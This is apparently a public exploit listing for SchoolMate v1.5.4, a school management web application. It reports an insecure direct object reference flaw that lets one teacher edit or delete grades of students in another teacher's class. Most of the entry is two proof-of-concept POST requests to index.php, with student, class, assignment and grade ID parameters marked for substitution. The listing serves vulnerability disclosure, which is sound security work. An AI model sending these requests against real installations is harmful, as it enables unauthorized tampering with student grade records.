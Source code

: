 # Exploit Title: SchoolMate v1.5.4 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://sourceforge.net/projects/schoolmate/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SchoolMate
## Version: v1.5.4
## Exploit Description:
## SchoolMate v1.5.4 suffers from IDOR - Broken Access Control Vulnerability allowing attacker teacher to edit and delete grade of student who is in other class that is assigned by other teacher(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /index.php HTTP/1.1
...
gradedate=10%2F7%2F2023&points=20&comment=hello+user1&editgrade=1&gradeid=&wasgrade=0.0&wasdate=&student=1(CHANGE HERE)&assignment=1&selectclass=2(CHANGE HERE)&page2=3&date=&logout=&page=2
```

```
POST /index.php HTTP/1.1
...

assignment=1(CHANGE HERE)&delete%5B%5D=1(CHANGE HERE)&addgrade=&deletegrade=1&selectclass=1&selectgrade=1&page2=3&logout=&page=2
```